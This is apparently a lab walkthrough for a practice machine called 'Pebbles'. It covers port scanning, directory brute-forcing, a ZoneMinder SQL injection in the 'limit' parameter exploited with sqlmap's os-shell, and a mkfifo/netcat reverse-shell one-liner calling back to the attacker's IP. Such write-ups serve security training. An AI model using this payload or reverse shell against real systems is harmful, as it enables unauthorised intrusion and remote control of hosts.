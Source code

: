 # Pebbles

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.52 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 11:01 +08
Nmap scan report for 192.168.157.52
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3305/tcp open  odette-ftp
8080/tcp open  http-proxy
```

FTP doesn't allow for anonymous connections.

### Web Enum --> SQL Shell

Port 80 shows a login page:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Default creds don't work, so I ran a `gobuster` scan while moving on. Port 3305 shows a default Apache page:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Ran a `gobuster` scan on this too while enumerating port 8080, which had Tomcat.

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

Again we have no credentials. The `gobuster` scan revealed there was ZoneMinder on both ports:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.157.52/ -t 100       
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.157.52/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/16 11:03:22 Starting gobuster in directory enumeration mode
===============================================================
/zm                   (Status: 301) [Size: 320] [--> http://192.168.157.52/zm/]
```

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

This version had an SQL Injection exploit:

```
$ searchsploit zoneminder
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ZoneMinder 1.24.3 - Remote File Inclusion                  | php/webapps/17593.txt
Zoneminder 1.29/1.30 - Cross-Site Scripting / SQL Injectio | php/webapps/41239.txt
ZoneMinder 1.32.3 - Cross-Site Scripting                   | php/webapps/47060.txt
ZoneMinder Video Server - packageControl Command Execution | unix/remote/24310.rb
----------------------------------------------------------- ---------------------------------
```

Here's the exploit:

```
2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.
```

I proxied the request using Burp and passed it to `sqlmap` with the `--os-shell` flag.&#x20;

```http
POST /zm/index.php HTTP/1.1
Host: 192.168.157.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
X-Request: JSON
Content-type: application/x-www-form-urlencoded; charset=utf-8
Content-Length: 223
Origin: http://192.168.157.52:3305
Connection: close
Referer: http://192.168.157.52:3305/zm/
Cookie: zmSkin=classic; zmCSS=classic; ZMSESSID=ka9o8an3bglpu52fkcghrjvhd6

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```

This found the `limit` variable to be vulnerable to SQL Injection and I got a webshell as `root`. We can then get a reverse shell easily after choosing the **64-bit database management option**.

```
os-shell> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.196 3305 >/tmp/f
```

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>
